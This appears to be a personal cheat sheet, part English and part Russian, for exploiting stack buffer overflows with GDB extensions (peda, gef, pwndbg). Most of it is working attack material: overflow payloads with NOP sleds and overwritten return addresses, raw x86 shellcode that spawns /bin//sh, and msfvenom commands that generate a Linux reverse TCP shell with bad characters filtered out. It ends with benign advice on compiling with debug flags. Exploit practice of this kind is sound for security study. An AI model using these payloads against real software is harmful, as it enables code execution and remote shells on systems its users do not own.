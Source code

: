 $ gdb-peda [ELF-файл]  
$ gdb-gef [ELF-файл]  
$ gdb-pwndbg [ELF-файл]  
######################################  
gdb-peda$ show follow-fork-mode  
gdb-peda$ show detach-on-fork   
gdb-peda$ set detach-on-fork off  
gdb-peda$ info inferior  
gdb-peda$ inferior 1  
gdb-peda$ list  
gdb-peda$ break 22  
gdb-peda$ info proc map #информация о приложении и стеке  
gdb-peda$ x/50x 0xffeb5c00  
gdb-peda$ pattern create 50  
gdb-peda$ pattern offset AA;A  
######################################  
run $(python -c "print '\x55' * 1036 + '\x66' * 4")  
  
run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')  
  
gdb-peda$ r `python -c 'print "A"*132 + "\xd3\x4d\xc0\xd3"[::-1]'`  
  
gdb-peda$ r `python -c 'print "\x90"*32 + "\x6a\x46\x58\x31\xdb\x31\xc9\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "\x90"*32 + "A"*35 + "\xbf\xff\xed\xe8"[::-1]'  
######################################  
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt  
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c  
^simple shellcode  
x/2000xb $esp+550  
^shows all content with 0x00 where is bad character  
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode  
^confirmed shellcode without bad characterrs  
######################################  
Для комфортной отладки сначала нужно собрать программу с правильными флагами. Во-первых, необходимо указать флаг -g. Иначе программа будет собрана без отладочных символов и отлаживать ее придется в ассемблерном коде (что, впрочем, вполне выполнимо для программ, написанных на чистом Си). Во-вторых, рекомендуется отключить оптимизации при помощи флага -O0, иначе некоторые переменные окажутся, что называется, optimized out, и вы не сможете посмотреть их значения при отладке.  
  
Другими словами, при прочих равных программу лучше собирать как-то так:  
  
gcc -O0 -g test.c -o test  
Запускаем программу в отладчике:  
  
gdb ./test  
При необходимости передать программе какие-то аргументы можно так:  
  
gdb --args ./test --ololo --trololo  
Запуск с так называемом Text User Interface, интерфейсом на основе curses (мне лично он не нравится):  
  